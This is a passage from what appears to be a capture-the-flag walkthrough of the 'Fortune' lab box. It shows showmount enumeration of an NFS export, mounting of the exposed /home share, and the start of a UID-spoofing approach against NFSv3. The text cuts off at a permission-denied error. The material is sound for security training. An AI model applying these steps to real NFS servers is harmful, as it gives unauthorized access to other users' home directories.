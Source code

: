 The service is currently unavailable, and there’s a note to see Charlie for details. I’ll keep that in mind.

### nsf - TCP 2049/613

When I see nfs, I can run `showmount` to see what mounts are available:

```

root@kali# showmount -e 10.10.10.127
Export list for 10.10.10.127:
/home (everyone)

```

The `/home` is not a safe thing to have, as I have access to user home directories now.

## Shell as bob or charlie

### nsf access

I’ll make a mount point and mount the nfs access:

```

root@kali# mkdir /mnt/fortune
root@kali# mount -t nfs 10.10.10.127:/home /mnt/fortune
root@kali# ls /mnt/fortune/
bob  charlie  nfsuser

```

I can also see that it is mounted as version 3, which means I can set my uid locally and nfs will respect that on Fortune:

```

root@kali# mount | grep fortune
10.10.10.127:/home on /mnt/fortune type nfs (rw,relatime,vers=3,rsize=65536,wsize=65536,namlen=255,hard,proto=tcp,timeo=600,retrans=2,sec=sys,mountaddr=10.10.10.127,mountvers=3,mountport=988,mountproto=udp,local_lock=none,addr=10.10.10.127)

```

### UserID Spoofing

I’m currently running as root, userid 0, on my kali box. However, that permission doesn’t seem to be translating over to Fortune:

```

root@kali# cd /mnt/fortune/charlie/
-bash: cd: /mnt/fortune/charlie/: Permission denied

```
